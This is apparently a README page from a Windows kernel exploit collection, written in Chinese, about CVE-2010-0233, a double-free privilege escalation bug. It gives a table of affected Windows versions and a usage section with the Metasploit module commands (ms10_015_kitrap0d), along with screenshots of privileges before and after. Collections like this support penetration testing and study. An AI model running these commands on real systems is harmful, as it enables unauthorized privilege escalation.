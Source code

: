 ### CVE-2010-0233

#### 描述

内核中的双重免费漏洞允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  |         | SP2    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         |        |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### 利用方式

编译环境

- nmake 2013

测试系统Windows Server 2003 SP2 x86

![25](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2010-0233_win2003_x86.gif)

> msf利用

测试系统Windows Server 2003 SP2 x86，执行以下代码

```
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 3
run
```

可以看到当前权限是最低的

![image-20200823123824229](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2010-0233_win2003_x86_msf.png)

然后执行命令提权

![image-20200823123945054](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2010-0233_win2003_x86_msf2.png)